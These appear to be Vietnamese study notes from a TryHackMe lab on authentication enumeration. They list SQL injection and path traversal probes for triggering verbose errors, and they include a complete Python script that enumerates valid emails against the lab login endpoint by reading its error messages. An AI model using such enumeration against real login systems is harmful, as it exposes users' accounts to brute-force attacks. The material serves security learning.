


# Chuẩn bị

- Kiến thức cơ bản về giao thức HTTP/HTTPS, bao gồm request/response và status code.
- Sử dụng web proxy như BurpSuite.
- Sử dụng Linux.

# Authentication Enumeration

## Authentication Enumeration

### Identifying Valid Usernames

- Xác định định đúng username đương nhiên giúp cho việc brute force nhanh hơn và chính xác hơn.
- Có thể xác định được username đúng thông qua _Quên mật khẩu_ hay thông báo từ hệ thống.

### Password Policies

- Có thể biết được đơn giản qua việc xem ở _Đăng ký_
- Từ đấy dự đoán được độ phức tạp của mật khẩu, điều chỉnh chiến lược, bỏ bớt mật khẩu vi phạm.

## Common Places to Enumerate

- Đăng ký
- Quên mật khẩu
- Thông báo lỗi
- Data từ lần vi phạm dữ liệu trước đó

# Enumerating Users via Verbose Errors

## Inducing Verbose Errors

- Cố gắng login sai: Đôi khi login làm hệ thống bắn ra các thông báo có lợi như "username not exist" hay "password incorrect".
- SQL Injection: Với loại này thì ta điền thêm vài ký tự đặc biệt vào nhưng nơi dự đoán có liên quan với DB, ví dụ như thêm `' " -- # ;`.
- LFI: Thử truy cập vài đường dẫn không được phép hoặc thêm thử `../` vào một số nơi có thể gây lỗi để xem.
- Thao túng form: Việc điền sai vài parameter hay bấm nút ko dc phép bấm thử cũng là một lựa chọn.
- Application Fuzzing: Gửi một đống input thứ mà hệ thống không lường trước được cũng là cách, một số tool hay dùng như `BurpSuite` hay `ffuf` hay được tin dùng.

## Thử nghiệm

> Tất cả các tài nguyên dưới đây là từ **TryHackMe**

- Ta có một web lab nhỏ có giao diện như sau:
  
- Nếu nhập đúng email thì thông báo có chút khác biệt:
  
- Dựa trên đây ta có một script nhỏ bằng python:

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)

```
- Scan nửa ngày thif cuối cùng cũng có cái valid:
  
# Exploiting Vulnerable Password Reset Logic
## Password Reset Flow Vulnerabilities
- Email-Based Reset
- Security Question-Based Reset
- SMS-Based Reset
## Exploiting Predictable Tokens